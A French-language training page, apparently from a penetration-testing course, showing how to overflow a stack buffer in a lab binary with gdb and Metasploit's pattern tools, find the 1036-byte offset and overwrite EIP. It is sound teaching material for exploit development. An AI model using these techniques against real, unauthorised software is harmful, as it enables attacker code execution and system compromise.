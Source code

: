 # Take Control of EIP

{% hint style="warning" %}
Un des aspects les plus importants d'un débordement de tampon basé sur la pile est de prendre le contrôle du pointeur d'instruction (EIP), afin que nous puissions lui indiquer vers quelle adresse il doit sauter. Cela fera pointer l'EIP vers l'adresse où notre shellcode commence et amènera le CPU à l'exécuter.
{% endhint %}

### <mark style="color:red;">Erreur de Segmentation</mark>

#### <mark style="color:green;">Prendre le Contrôle d'EIP</mark>

```bash
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

Si nous insérons 1200 "U" (hex "55") comme entrée, nous pouvons voir à partir des informations du registre que nous avons écrasé l'EIP. Comme nous le savons, l'EIP pointe vers la prochaine instruction à exécuter.

#### <mark style="color:green;">Prendre le Contrôle d'EIP</mark>

```bash
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP écrasé
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP écrasé
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

***

Cela signifie que nous avons un accès en écriture à l'EIP. Ceci, à son tour, permet de spécifier vers quelle adresse mémoire l'EIP doit sauter. Cependant, pour manipuler le registre, nous avons besoin d'un nombre exact de U jusqu'à l'EIP afin que les 4 octets suivants puissent être écrasés avec notre adresse mémoire désirée.

***

### <mark style="color:red;">Déterminer le Décalage</mark>

Le décalage est utilisé pour déterminer combien d'octets sont nécessaires pour écraser le tampon et combien d'espace nous avons autour de notre shellcode.

{% hint style="warning" %}
Le shellcode est un code de programme qui contient des instructions pour une opération que nous voulons que le CPU exécute. La création manuelle du shellcode sera discutée plus en détail dans d'autres modules. Mais pour économiser du temps d'abord, nous utilisons le Metasploit Framework (MSF) qui offre un script Ruby appelé "pattern\_create" qui peut nous aider à déterminer le nombre exact d'octets pour atteindre l'EIP. Il crée une chaîne unique basée sur la longueur d'octets que vous spécifiez pour aider à déterminer le décalage.
{% endhint %}

#### <mark style="color:green;">Créer un Motif</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
mrroboteLiot_1@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```
{% endcode %}

Maintenant nous remplaçons nos 1200 "U" avec les motifs générés et concentrons à nouveau notre attention sur l'EIP.

#### <mark style="color:green;">GDB - Utilisation du Motif Généré</mark>

{% code fullWidth="true" %}
```bash
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```
{% endcode %}

#### <mark style="color:green;">GDB - EIP</mark>

```bash
(gdb) info registers eip

eip            0x69423569	0x69423569
```

Nous voyons que l'EIP affiche une adresse mémoire différente, et nous pouvons utiliser un autre outil MSF appelé "pattern\_offset" pour calculer le nombre exact de caractères (décalage) nécessaire pour avancer jusqu'à l'EIP.

#### <mark style="color:green;">GDB - Décalage</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Si nous utilisons maintenant précisément ce nombre d'octets pour nos "U", nous devrions atterrir exactement sur l'EIP. Pour l'écraser et vérifier si nous l'avons atteint comme prévu, nous pouvons ajouter 4 octets supplémentaires avec "\x66" et l'exécuter pour nous assurer que nous contrôlons l'EIP.

#### <mark style="color:green;">Décalage GDB</mark>

```bash
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Maintenant nous voyons que nous avons écrasé l'EIP avec nos caractères "\x66". Ensuite, nous devons découvrir combien d'espace nous avons pour notre shellcode, qui exécutera alors les commandes que nous avons l'intention d'exécuter. Comme nous contrôlons maintenant l'EIP, nous l'écraserons plus tard avec l'adresse pointant vers le début de notre shellcode.
